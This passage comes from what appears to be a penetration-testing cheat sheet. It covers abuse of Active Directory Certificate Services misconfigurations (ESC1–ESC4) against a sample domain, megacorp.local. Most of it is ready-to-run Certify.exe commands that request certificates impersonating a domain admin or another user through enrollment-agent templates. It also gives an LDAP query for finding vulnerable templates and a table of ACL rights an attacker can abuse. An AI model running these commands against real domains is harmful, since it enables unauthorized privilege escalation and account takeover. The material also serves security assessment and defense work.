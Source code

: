 Request a certificate specifying the `/altname` as a domain admin:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:VulnTemplate /altname:DomAdmin
```

### <mark style="color:orange;">Modifiable SAN + Any Purpose EKU (ESC2)</mark> <a href="#modifiable-san-any-purpose-eku-esc-2" id="modifiable-san-any-purpose-eku-esc-2"></a>

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Any Purpose EKU (`2.5.29.37.0`).

Find template with this misconfiguration:

```powershell
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```

Request a certificate specifying the `/altname` as a domain admin like in **ESC1**.

### <mark style="color:orange;">Agent Certificate + Enroll on Behalf of Another User (ESC3)</mark> <a href="#agent-certificate-enroll-on-behalf-of-another-user-esc-3" id="agent-certificate-enroll-on-behalf-of-another-user-esc-3"></a>

Conditions:

1. A template allows a low-privileged user to use an enrollment agent certificate.
2. Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

1\. Request an enrollment agent certificate:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:Vuln-EnrollAgentTemplate
```

2\. Request a certificate on behalf of another to a template that allow for domain authentication:

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User /onbehalfon:MEGACORP\ITAdmin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

### <mark style="color:orange;">Vulnerable Certificate Template ACEs (ESC4)</mark> <a href="#vulnerable-certificate-template-aces-esc-4" id="vulnerable-certificate-template-aces-esc-4"></a>

* ​[https://github.com/cfalta/PoshADCS](https://github.com/cfalta/PoshADCS)​

| Right           | Description                                                    |
| --------------- | -------------------------------------------------------------- |
| `Owner`         | Implicit full control of the object, can edit any properties.  |
| `FullControl`   | Full control of the object, can edit any properties.           |
| `WriteOwner`    | Can modify the owner to an adversary-controlled principal.     |
| `WriteDacl`     | Can modify access control to grant an adversary `FullControl`. |
| `WriteProperty` | Can edit any properties.                                       |
